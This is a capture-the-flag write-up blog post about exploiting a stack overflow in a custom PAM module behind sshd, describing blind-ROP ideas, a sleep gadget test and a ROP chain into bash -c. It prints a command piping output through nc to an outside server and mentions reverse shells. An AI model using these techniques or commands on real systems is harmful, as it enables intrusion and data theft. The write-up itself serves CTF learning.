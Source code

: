 ```yaml
---
layout: post
title: "Defcamp Finals 2018 - UltraSecure (pwn)"
description: ""
date: 2018-11-09
tags: [ctf, pwn]
comments: true
---
```


> 142.93.107.255 (Solves: 3, ~400 pts)
>
> [UltraSecure.so][bin1] [UltraSecure-2.so][bin2] [+auto.py][auto]

In this challenge, we are presented with a `UltraSecure.so` shared object file (later updated by the authors to UltraSecure-2.so), and challenge server ip without a port. This is quite puzzling as generally I expect a binary and a port to be provided in a pwn challenge. Naturally, I decided to find out the port for this service first, so I ran a simple nmap scan to discover the open ports. There weren't many open ports from the results and what stands out is the open ssh port.
```
PORT    STATE    SERVICE
22/tcp  open     ssh
```

## Quick Glance
Upon quick reversing of the .so file we are provided with, it seems that it only implements three functions `pam_sm_authenticate`, `pam_sm_acct_mgmt`, `pam_sm_setcred` (In the updated binary there is a bit more, but these are the functions that matter). Upon quick googling you'll realise that these functions are used for authentication of user logins.
```
PAM_SM_AUTHENTICATE(3)        Linux-PAM Manual        PAM_SM_AUTHENTICATE(3)

pam_sm_authenticate - PAM service function for user authentication
```
Now the challenge is starting to make more sense, since the SSH service is running on the challenge server, and it's likely loading this shared object, we have to exploit the authentication during the SSH connection. Looking at the binary, the bug is very trivial, it's a `memcpy` (originally was `strcpy`) of user input into a stack buffer without any bounds checking, thus we can essentially overflow the stack as much as we wish.

In the password check for authentication, our user-given password copied on to the stack buffer is compared with a very large string of "A"s. 

{% highlight C %}
if ( !strcmp(
      &dest,
      "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
      "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
      "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
      "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
      "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
      "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
      "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
      "AAAAAAAAAAAAAAAAAAA") )
result = 0LL; // 0 = authentication pass
{% endhighlight %}

The number of "A"s in the correct password is such that if we were to provide a correct password that gives return result of 0, our saved RIP on the stack will be overwritten. Thus it doesn't matter if our return value is correct since it will segfault upon return to a bad address. If we were provided with a binary (and there is no PIE), it would be pretty easy to form a ROP chain and pop our shell or read the flag, however since we do not have a binary, our options are limited.

## BeeROP
From our previous constraints, this challenge immediately reminded me of BROP(Blind ROP), a technique that uses brute-force and clever logic to find gadgets and perform ROP without having access to the binary. I've never done the technique but I was familiar with the idea after reading about it in the past. One idea in BROP is brute-forcing the stack canary. The idea is that if the stack canary is unknown but constant throughout executions, we could bruteforce one byte at a time, when the binary doesn't throw an error, then we've hit the correct byte. In this case, there are no stack canaries but we could apply the same idea to bruteforce return addresses on the stack, this would give us a leak in those respective pages. If we got the byte wrong, the ssh connection would immediately drop, if we hit the correct byte, the ssh prompt will request for a password again as our password provided was wrong. For `pam_sm_authenticate`, I believe that it was being called by `pam_authenticate` from `libpam.so`, thus if we bruteforce this address, we could perform ROP using gadgets from that file. However, this had multiple issues or assumptions required.

1. No ASLR
	- In order to bruteforce the canary, the canary must be constant across executions. Likewise, when we want to bruteforce this return address, we need the address to be constant throughout different executions, if not we would never be able to bruteforce the value.

2. Same libpam.so
	- Assuming we did get a leak from the `libpam.so`, we would still need to find gadgets and functions that we can call, finding their addresses relative to our leak. In order for this to work, we need to be have the same `libpam.so` that the server is running. Since I was not familiar with this file, I wasn't confident about ROPing with it.

3. Noob python
	- We couldn't figure out how to script it properly. It is surprisingly difficult to script SSH authentications.

With all these issues, I decided to drop the challenge and pivot to working on the web challenges. Meanwhile, my teammate for this finals [FetchDex][fedex] continued to work on the challenge as he was determined to solve it.

## Back at it 
After I had solved a web challenge and a "good night's sleep"(on a beanbag), FetchDex managed to get a local copy of the same OpenSSH version installed, meaning we may have the correct binary (same one as the one running on the server). Additionally, after playing some meta-CTF, I google'd the challenge author's github and found an interesting [repository][github] about PAM modules. This helped us to link the module and was useful for debugging and such. Thus I continued to work together with FetchDex on this challenge.

## Sleepy pwnable
Although we did compile the same version of OpenSSH locally, being a skeptic, I was doubtful that our resultant binary was exactly the same as the one running on the server. This usually isn't a big deal, but for ROPing, a small different could mean that all our gadgets are taken from the wrong addresses, if the compiler were to just sneeze during compilation, our exploit would be gone. Sleep-deprived pwners need sleep, and so do the pwnables. In order to test whether we could effectively control RIP and go to the gadgets in the `sshd` (OpenSSH) binary, I needed some indication that the gadget has been run. Initially, I had chosen some `printf()` gadgets that should print to stdout, but since we were connecting with the `ssh` tool, it seems that we couldn't see any of that output, either the server doesn't send it or our client doesn't display it. Instead, as I've been foreshadowing, I found a `sleep(some_big_number)` gadget. This is a much more telling gadget as we can see an indication that this is running when the interactive session pauses for a long time after we send our malicious password. Fortunately, the sleep trick worked both locally and remotely, a strong indicator that our offsets are either exactly the same or good enough for our uses.

## ROP master
After knowing that we can call gadgets from the `sshd` binary, we were equipped to win. We formed a quick `execv("/bin/sh", 0)` ROP chain, hoping it would work. Unfortunately, the ROP chain executed but we would not be able to interact with it through the SSH client we were using. This got us for a while and I was ready to give up.

Later on, we moved to a slightly different idea. This challenge reminded me of MeePwn CTF challenge where we could execute shellcode on their server but we had no interactive access. In the end, I ran a `/bin/bash -c` shellcode, using a reverse shell as an argument. This easily gives us a reverse shell that we can use to interact with the server, even though the original binary doesn't permit an interative session for us. With the gadgets we had, we could possible pull off a `/bin/bash -c` too. However, a big issue was that we needed to get the strings like "/bin/bash", "-c" and our command in memory. Since we do not have proper interactive access, we can't use something like `read(0, bss, 1000)` to read our strings to some known writable address. Since the CTF was ending soon, I decided not to look for a perfect solution, but to look for a solution that might work. Therefore, I randomly made the assumption that ASLR was disabled. If ASLR was disabled, this would be very useful for us as we have certain heap buffers that we can control. If ASLR is disabled, these heap buffers would always be at the same place (mostly), meaning our exploit can work. We confirmed this with the organisers later.
* Note: After reading a nice [writeup][writeup] from the other team, I now realise that we did not need to make this as an assumption. Since `sshd` is something like a fork server, the addresses would not be re-randomised everytime so it's not too bad.

Moving on, since we can control the heap buffers, we can simply form a ROP chain that will allow us to call `exec("/bin/bash", argv)`, where `argv = ["/bin/bash", "-c", "arbitrary_command"]`. This ROP chain worked and we were able to get input from the server with commands like `ls | nc our_server 1337`. However, I don't know why it didn't occur to me during the CTF, but we were using `some_command | nc our_server 1337` repeatedly with different commands. And since the heap addresses did change slightly every once in awhile, the script only worked once every ~30 times, thus this was very slow. In hindsight, I should have just ran a single command that would create reverse bash shell back to my remote server, we would have gotten the flag a lot earlier had I realised this. Eventually, we got the flag quite soon to the end of the CTF. A nice way to end.

`DCTF{f646115ce24bada814d949b254a3b0b7858551e07df7235bd20e6b92834fd023}`

## Post-CTF
We(HATS Singapore) ended the CTF in 12th place of 17 finalist teams. This CTF was the first time I've talked to most of my teammates in real life and it's been an interesting experience thus far. Being our first onsite CTF playing as a team, I'm quite proud of how we faired in this CTF even though it may not be objectively the greatest placing.
![screenshot][ss]



[bin1]:{{site.baseurl}}/ctf/2018-11-09-defcamp-finals-2018---ultrasecure/UltraSecure.so
[bin2]:{{site.baseurl}}/ctf/2018-11-09-defcamp-finals-2018---ultrasecure/UltraSecure-2.so
[auto]:{{site.baseurl}}/ctf/2018-11-09-defcamp-finals-2018---ultrasecure/auto.py
[fedex]:https://twitter.com/FetchDEX
[github]:https://github.com/NitescuLucian/simple-pam
[writeup]:https://github.com/Inndy/ctf-writeup/tree/master/2018-d-ctf-final/ultimate-secure
[ss]:{{site.baseurl}}/ctf/2018-11-09-defcamp-finals-2018---ultrasecure/ss.png